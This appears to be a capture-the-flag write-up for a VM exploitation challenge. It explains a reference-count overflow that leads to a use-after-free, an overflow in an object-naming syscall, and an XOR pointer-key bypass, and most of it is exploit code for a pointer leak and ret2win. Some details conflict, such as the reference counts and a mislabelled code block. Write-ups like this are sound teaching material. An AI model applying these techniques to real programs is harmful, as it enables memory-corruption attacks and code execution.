



# TerViMator

Decompiling in Cutter it can be seen that the memory is stored in this structure

```python
struct vm_object_t {
	char name[8];          // 0x00
	uint8_t perms;         // 0x08 (1=R, 2=W, 4=X)
	uint8_t type;          // 0x09 (0=FREE, 1=DATA, 2=EXEC)
	uint8_t ref_count;     // 0x0a
	uint8_t padding;       // 0x0b
	uint32_t size;         // 0x0c
	union {
		char *buffer;      // 0x10 (For DATA objects)
		uint64_t func_ptr; // 0x10 (For EXEC objects)
	} content;
};
```

There is a global array objects[16] stored in the BSS.

The VM implements a software-based Pointer Authentication mechanism. When an EXEC object is allocated, the function pointer is XORed with a static key before being stored:

```c
#define PAC_KEY 0x1a5bfe810dce5825
objects[id].content.func_ptr = raw_ptr ^ PAC_KEY;
```

The Opcodes availlable are:-

- 0x00      HALT
- 0x01      move immediate
- 0x02      load
- 0x03      add
- 0x04      subtract
- 0x05      xor
- 0x06      system call

The syscalls availlable are:

- 1 Allocate Data Memory
- 2 Allocate Executable Memory
- 3 Free
- 4 Return two pointers to a memory object (split)
- 5 Name
- 6 Write
- 7 Read
- 8 Execute
- 9 Return 1 pointer to a memory object

There are two main vulnerabilities in two of the syscalls

- split



the bounds check is not properly implemented as it only checks if the count is <255 , leading to an overflow when split is called with 254 references to 0 references, which makes the the memory freeable. 

- name



a buffer overflow of 64-8=56 bytes exists, which allows us to overwrite permissions of an adjacent memory block making it readable, allowing us to leak addresses.

### Part 1: libc leak

```python
def mov(reg, val): 
    return INS_MOV_IMM + bytes([reg]) + p32(val)

def syscall(sys_num, arg1=0, arg2=0, arg3=0):
    p = mov(0, sys_num)
    p += mov(1, arg1) + mov(2, arg2) + mov(3, arg3)
    p += INS_SYS
    return p

def refcount_overflow(obj_id):
    p = syscall(9, arg1=obj_id) 
    
    for _ in range(127):
        p += mov(0, 4)
        p += mov(1, obj_id)
        p += INS_SYS
    return p

bytecode = b""
#alloc_exec safe_handler
bytecode += syscall(2, arg1=0)

bytecode += refcount_overflow(0)

#sys_free
bytecode += syscall(3)

#sys_name() arg2 = len
bytecode += syscall(5, arg1=0, arg2=9)

# sys_read() arg1 = ID, arg2 offset
for i in range(8):
    bytecode += syscall(7, arg1=0, arg2=i)

p.send(bytecode)

p.recvuntil(b"Reading 9 bytes")
#overwrite permissions
p.send(b"A"*8 + b"\\x01")

#get sys_read data 
leak_data = b""
for _ in range(8):
        p.recvuntil(b"Byte at")
        line = p.recvline().strip()
        byte_hex = line.split(b": ")[1]
        leak_data += bytes([int(byte_hex, 16)])

encrypted_leak = struct.unpack("<Q", leak_data)[0]
safe_handler   = encrypted_leak ^ PAC_KEY
    
#decrypt address 
 base_addr     = safe_handler - OFFSET_SAFE_HANDLER
 win_addr      = base_addr + OFFSET_WIN
 encrypted_win = win_addr ^ PAC_KEY
```

By calling duplicate once, and split 127 times, we can overflow the  reference count to 0. which then allows us to free the memory, since it only allows freeing when the reference count is 0. This is useful as sys_name does not check whether an object has been freed or not, creating a UAF. The pointers are encrypted by XORing  them with the key 0x1a5bfe810dce5825



We can then use the name function to overwrite the permissions of the structure, allowing us to read the freed structure. which leaks the address in the program.

### Part 2: Ret2Win

```c
#allocate ID 0
bytecode += syscall(1, arg1=16)

#alloc_exec ID->1
bytecode += syscall(2, arg1=0)
#    overwrite ID->1 with sys_read
bytecode += syscall(5, arg1=0, arg2=64)

# sys_exec ID 1
bytecode += syscall(8, arg1=1)

p.send(bytecode)

p.recvuntil(b"Reading 64 bytes")
    
payload = b"A" * 24
payload += b"AAAAAAAA" 
payload += b"\x07"    
payload += b"\x02"   
payload += b"\x01"  
payload += b"\x00" 
payload += p32(0) 
payload += p64(encrypted_win) 
payload = payload.ljust(64, b"\x00")
p.send(payload)
p.interactive()

```

We can now allocate ID = 0, and ID = 1, and use the buffer overflow, to overwrite the function address with the win function., and then call sys_exec to execute it.
